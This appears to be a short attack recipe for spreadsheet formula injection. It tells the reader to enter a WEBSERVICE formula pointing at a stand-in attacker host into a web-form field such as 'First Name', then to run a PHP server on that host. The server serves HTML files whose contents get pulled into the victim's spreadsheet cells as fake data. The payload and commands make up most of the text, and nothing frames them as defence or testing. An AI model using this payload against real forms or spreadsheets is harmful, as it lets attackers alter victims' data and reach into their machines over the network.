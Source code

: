 Use Webservice Formula to Inject fake data into Speadsheet
----------------------------------------------------------
In cell "A1" enter the following - Could be "First Name" in web form
=WEBSERVICE("http://www.attacker.com")

Run attacking server 
php -S www.attacker.com:80

On attacking server create "index.html" with content you want to change the "fake data" too.
-Begin index.html
Fake Data
-End index.html

To fill in multiple cells use multiple html file
############ Begin a1.html ##################################
Fake
############ End a1.html ####################################
############ Begin a2.html ##################################
Data
############ End a2.html ####################################



